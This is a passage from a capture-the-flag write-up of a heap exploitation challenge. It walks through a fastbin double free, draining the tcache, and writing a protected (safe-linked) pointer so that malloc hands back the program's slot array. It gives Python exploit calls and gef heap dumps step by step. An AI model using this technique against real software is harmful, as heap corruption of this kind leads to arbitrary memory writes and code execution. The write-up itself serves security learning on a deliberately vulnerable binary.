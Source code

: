We can see that the address of the slot 4 is the last element of the bin. We would like to free it again. However, if we free it directly, it will reset its address in the initial array. So we need to erase a previous slot before:
```py
erase_memory(b'1\n')
erase_memory(b'4\n')
```
Let's now look at the heap:
```
gef➤  heap bins
─ Fastbins for arena at 0x7f11e8acfc60 ─
Fastbins[idx=0, size=0x20]  ←  Chunk(addr=0x55a408a433e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55a408a433a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55a408a433e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  →  [loop detected]

gef➤  x/16gx 0x000055a408a432a0
0x55a408a432a0:	0x000055a408a43330	0x0000000000000000
0x55a408a432b0:	0x000055a408a433a0	0x000055a408a433c0
0x55a408a432c0:	0x000055a408a433e0	0x0000000000000000
0x55a408a432d0:	0x0000000000000000	0x0000000000000000
0x55a408a432e0:	0x0000000000000000	0x0000000000000000
0x55a408a432f0:	0x0000000000000000	0x0000000000000000
0x55a408a43300:	0x0000000000000000	0x0000000000000000
0x55a408a43310:	0x0000000000000000	0x0000000000000000
```
We can see now that the address of the slot 4 appears twice in the `fastbin`. We will now have to get it by a first `malloc` to set the address to the slot 0.
#### Double free exploitation
In the setup of the double free, we set a chunk to appear twice in the `fastbin`. That way, we will be able to allocate this chunk using `malloc` and to write to it to modify the address to the next pointer. That way, when we will allocate it a second time, we will modify the address of the next chunk allocated through `malloc`:
```py
# Remove all the chunks in the tcachelist
for i in range(7):
    create_memory(b'txt\n')

# Put the protected address to the slot 0 in the bin
create_memory(bytes(reversed(bytes.fromhex(protected_slot_zero_address))) + b'\x00\n')
```
Let's look at the heap:
```
gef➤  heap chunks
Chunk(addr=0x5580408d5010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005580408d5010     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5580408d52a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005580408d52a0     30 53 8d 40 80 55 00 00 c0 53 8d 40 80 55 00 00    0S.@.U...S.@.U..]
Chunk(addr=0x5580408d5330, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005580408d5330     73 72 64 6e 6c 65 6e 7b 66 61 6b 65 5f 66 6c 61    srdnlen{fake_fla]

gef➤  heap bins
─ Tcachebins for thread 1 ─
Tcachebins[idx=0, size=0x20, count=3] ←  Chunk(addr=0x5580408d53a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x5580408d53e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x5580408d52a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x5580408d52a0]
```
You can first notice that the chunks are not in the `fastbin` anymore but have been moved in the `tcachebin`. This is an operation done by `malloc`, but it does not change anything to our exploit. Indeed, we can see that the address of the slot 0 (`0x5580408d52a0`) now appears in the bin. It means that the third chunk we will allocate will be the slot 0. So we want to write the address to the flag to the slot 1:
```py
create_memory(b'txt\n')
```